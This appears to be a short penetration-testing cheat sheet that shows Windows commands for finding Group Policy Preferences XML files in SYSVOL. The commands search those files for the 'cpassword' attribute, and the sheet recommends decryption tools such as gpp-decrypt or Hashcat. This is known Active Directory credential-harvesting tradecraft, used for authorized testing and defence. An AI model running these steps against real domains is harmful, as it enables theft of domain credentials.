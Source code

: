 # Living off the Land

## 01 - Command Prompt

Use the `dir` command to find the XML file.

```
C:\> dir /s Groups.xml

C:\> dir /s %LOGONSERVER%\SYSVOL\*\Groups.xml
```

Use `findstr` to search for `cpassword` keyword to every `.xml` files.

```
C:\> findstr /s cpassword C:\Windows\SYSVOL\<domain_name>\Policies\*.xml

C:\> findstr /s cpassword %LOGONSERVER%\SYSVOL\*.xml
```

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

```
C:\> type C:\path\to\GPP_file.xml
```

---
## References

### LOLBAS

- [LOLBAS: findstr](https://lolbas-project.github.io/lolbas/Binaries/Findstr/)

### ADSecurity

- [Active Directory Security: Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)